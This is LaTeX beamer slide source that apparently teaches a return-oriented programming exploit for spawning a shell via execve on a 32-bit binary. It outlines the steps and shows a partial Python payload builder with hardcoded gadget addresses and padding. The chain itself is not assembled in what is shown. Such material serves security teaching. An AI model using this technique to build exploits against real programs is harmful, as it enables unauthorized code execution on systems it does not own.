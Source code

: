\documentclass[11pt]{beamer}
\begin{document}
\section{Example: Open a shell}
\subsection{Target Program and Compilation}
\begin{frame}[fragile]
    \frametitle{Target Program and Compliation}
\end{frame}
\subsection{General approach}
\begin{frame}[fragile]
    \frametitle{Spawning a shell: Approach}
    \begin{itemize}
        \item Using ROPgadget we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11 in eax)
            \item init systemcall arguments (address of /bin//sh in ebx, args and env in ecx and edx)
            \item call systemcall
        \end{enumerate}
        \item All of this has to be done using Bytes that are not \Verb+\\0x00+ because thats the character used for identifying the end of a string.
    \end{itemize}
\end{frame}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, defining all gadgets}
    \begin{lstlisting}[style=code, language=python]
from struct import pack
import os
data = 0x080e3020
xor_eax_eax = 0x0804e234 # xor eax, eax ; ret
pop_eax = 0x080ac96a # pop eax ; ret
pop_ebx = 0x08049022 # pop ebx ; ret
pop_ecx = 0x0807f9a3 # pop ecx ; ret
pop_edx = 0x0807f133 # pop edx ; and eax, 0xe850fffd ; ret
inc_eax = 0x0809fc6e # inc eax ; ret
int_80 = 0x080499c2 # int 0x80
mov_edx_eax = 0x0804eed2 # mov dword ptr [edx], eax ; ret
filler = 0x11111111
# Padding goes here
p = bytes('AAAAAAAABBBB', 'ascii')
    \end{lstlisting}
\end{frame}
\end{document}
